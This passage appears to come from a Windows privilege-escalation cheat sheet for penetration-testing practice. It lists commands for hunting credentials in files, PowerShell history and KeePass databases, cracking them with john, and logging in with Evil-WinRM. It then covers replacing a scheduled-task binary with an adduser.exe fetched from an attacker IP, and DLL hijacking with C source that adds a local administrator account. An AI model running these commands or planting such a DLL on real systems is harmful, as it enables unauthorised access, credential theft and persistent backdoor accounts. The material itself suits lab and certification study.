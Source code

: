 	- 64-bit applications `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Note - Remove `select displayname` for full properties)
	- Running processes: `get-process`

Well Known SIDs for PrivEsc (User RID users starts at 1000, eg 1001 is 2nd user)
```
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```
### Find Credentials
Try each of these steps ***for each user you get access to***
- Cleartext files: `Get-ChildItem -Path C:\Users\username -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
- Powershell history: `get-history` or `(Get-PSReadlineOption).HistorySavePath`
	- "Enter-PSSession", copy/paste the commands into terminal again.
- Keepass: `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` 
	- `keepass2john Database.kdbx > keepass.hash` 
	- Remove `Database` from start of `keepass.hash` then `john keepass.hash`
- XAMPP: `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
### Evil-WinRM - Creates Powershell Remoting Session
- Login: `evil-winrm -i 192.168.xx.xxx -u user -p "password\$\!"` (escape special characters: `"password$!"` = `"password\$\!"`)
## Using Scheduled Tasks
- Find scheduled tasks: `schtasks /query /fo LIST /v` 
	- Inspect `Author`, `Taskname`, `Task To Run`, and `Next Run Time`
	- Find regularly scheduled task (every minute) in a folder you can change
	- Move original to safe space: `move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak`
	- Pull `adduser.exe` in with iwr: `iwr -uri http://192.168.xx.xxx/adduser.exe -outfile C:\target\path\scheduledtask.exe`
- `C:\Users\moss\Searches\VoiceActivation.exe`
### Services
- Find running processes: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- Start Process monitor and filter for target process 
	- Use `restart-servce servicename` if nothing is listed
	- Search for DLLs with;
		- Operation `CreateFile` 
		- Details `NAME NOT FOUND` 
		- With path to a folder you control (see `$env:path` for paths)
- Create a DLL with that name (eg. `mousepad myDLL.cpp`) 
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user john password123! /add");
  	    i = system ("net localgroup administrators john /add");
        break;
```